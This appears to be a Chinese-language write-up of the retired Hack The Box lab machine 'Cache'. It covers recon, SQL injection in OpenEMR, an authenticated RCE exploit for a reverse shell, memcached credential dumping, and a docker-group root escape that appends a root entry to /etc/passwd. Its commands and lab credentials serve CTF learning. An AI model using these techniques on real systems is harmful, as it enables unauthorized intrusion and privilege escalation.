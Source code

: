  
 

Writeup -- Cache (Medium) 


*   **nmap** 扫描发现开放的端口和服务: **80(web),22(ssh)**
*   找到 **js** 文件中的密码。
*   找到域名并访问。
*   数据库注入找到账号密码。
*   利用cms漏洞获得初始shell。
*   利用服务漏洞获得用户和密码，切换用户。
*   docker提权。

Proof
-----

详细内容
----

### Step 1: Recon

``` 
gg@c0ntrol_c3nter:/tmp# nmap -Pn --open 10.10.10.188
Starting Nmap 7.80 ( https://nmap.org ) 
Nmap scan report for HMS.htb (10.10.10.188)
Host is up (0.45s latency).
Not shown: 599 filtered ports, 399 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds
``` 

*   **Port 80：**

访问 **http://10.10.10.188** ，查看审查元素，发现链接：

`http://10.10.10.188/login.html`

`http://10.10.10.188/author.html`

访问 `http://10.10.10.188/login.html`，查看审查元素，发现 **js** ：

`http://10.10.10.188/jquery/functionality.js`

内容如下：

`1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35

$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();

        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });` 

在 js 中找到一对用户名和密码：ash/H@v3\_fun

可以用该密码登陆，登陆后没有更多发现。

访问 `http://10.10.10.188/author.html`，阅读内容：

`1
2
3
4
5
6
7
8
9

ASH
CEO & Founder, CACHE

cache.htb
ASH is a Security Researcher (Threat Research Labs), Security Engineer. 
Hacker, Penetration Tester and Security blogger. 
He is Editor-in-Chief, Author & Creator of Cache. 
Check out his other projects like Cache:
HMS(Hospital Management System)` 

可知该网站域名为 `cache.htb` 。将该域名添加到hosts文件中，访问 `http://cache.htb`，确认正是该网站。

根据其内容，作者还有其他类似项目：HMS，推测其域名为 `HMS.htb`。

添加hosts文件并访问 `http://hms.htb`，发现 `OpenEMR` 页面，从页面元素中可以发现版本4.1。

wfuzz 爆破路径：`wfuzz -c -z file,/common.txt --hc 404,403 http://hms.htb/FUZZ`

`1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41

 ********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer                         *
********************************************************

Target: http://hms.htb/FUZZ
Total requests: 4615

==================================================================
ID	Response   Lines      Word         Chars          Payload
==================================================================


000001:  C=302      0 L	       0 W	      0 Ch	  ""
000291:  C=200     35 L	      77 W	    937 Ch	  "admin.php"
000957:  C=301      9 L	      28 W	    303 Ch	  "common"
000995:  C=301      9 L	      28 W	    303 Ch	  "config"
001035:  C=301      9 L	      28 W	    304 Ch	  "contrib"
001040:  C=301      9 L	      28 W	    308 Ch	  "controllers"
001122:  C=301      9 L	      28 W	    303 Ch	  "custom"
001992:  C=301      9 L	      28 W	    303 Ch	  "images"
002022:  C=302      0 L	       0 W	      0 Ch	  "index.php"
002082:  C=301      9 L	      28 W	    306 Ch	  "interface"
002146:  C=301      9 L	      28 W	    307 Ch	  "javascript"
002278:  C=301      9 L	      28 W	    304 Ch	  "library"
002283:  C=200    674 L	    5644 W	  35147 Ch	  "LICENSE"
002568:  C=301      9 L	      28 W	    304 Ch	  "modules"
003044:  C=301      9 L	      28 W	    303 Ch	  "portal"
003208:  C=301      9 L	      28 W	    303 Ch	  "public"
003592:  C=301      9 L	      28 W	    305 Ch	  "services"
003700:  C=301      9 L	      28 W	    302 Ch	  "sites"
003794:  C=301      9 L	      28 W	    300 Ch	  "sql"
003996:  C=301      9 L	      28 W	    306 Ch	  "templates"
004022:  C=301      9 L	      28 W	    302 Ch	  "tests"
004287:  C=301      9 L	      28 W	    303 Ch	  "vendor"

Total time: 166.5216
Processed Requests: 4615
Filtered Requests: 4593
Requests/sec.: 27.71410` 

尝试所有路径后找到另一个登陆页面：`http://hms.htb/portal/`

尝试了登陆、注册，都没有发现。

searchsploit 找到的 exp 也都无法使用。谷歌找到文章：[https://www.cvedetails.com/cve/CVE-2018-15145/](https://www.cvedetails.com/cve/CVE-2018-15145/)。

参照文章内容，`http://hms.htb/portal/add_edit_event_user.php?eid=1` 存在注入点。

依照文章，先访问注册页面再访问注入点url，抓包用sqlmap确认并在库中找到账号密码，dump出来。

获得用户名和密码hash：

`openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.`

用 **john** 破解出密码。

### Step 2: Initial Shell

*   **Port 80：**

搜索 OpenEMR 的漏洞，找到 `OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution` ：45161.py

结合获取到的密码，运行脚本执行反弹 shell 命令。

升级tty：`python3 -c 'import pty; pty.spawn("/bin/bash")'`

用前文获取到的 ash 的账号和密码切换用户，并获得user.txt。

### Step 3: Privilege Escalation

*   **Port 11211：**

运行 `netstat -ant` 发现开启了`11211`端口，运行的是memcrashed程序。

谷歌发现一篇文章 [https://www.hackingarticles.in/penetration-testing-on-memcached-server/](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) ，根据文章，可以用 telnet 获取敏感信息。

运行：`telnet localhost 11211`

`1
2
3
4
5
6
7
8
9
10
11
12

Connected to localhost.
Escape character is '^]'.
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END` 

获取到用户名和密码。

切换用户到 luffy 。

运行 `id` 发现用户属于docker组。

运行 `docker images` 查看已经下载的镜像。

参考 [https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)，利用docker获取root权限。

`docker run -v /:/mnt --rm -it 2ca708c1c9cc chroot /mnt sh`

此时的 shell 是docker容器中的身份运行的，但拥有读写宿主机文件系统的权限。

为了获取目标主机的root权限，向 **/etc/passwd** 文件中写入一条hash：

`echo 'prive:$1$prive$kVguN2dcoTdHqrQmSzy7Y0:0:0::/root/:/bin/bash'>>/etc/passwd`

该hash可以用 openssl 命令生成：

`openssl passwd -1 -salt 'prive'`

退出 docker shell ，切换用户到 `prive`，密码也是 prive，即获得主机的root权限。

**全部过程如下：**

[HackTheBox -- Retired](/categories/hackthebox----retired/), [Linux(Retired)](/categories/linux%28retired%29/)

[Hack The Box](/tags/hack-the-box/)
 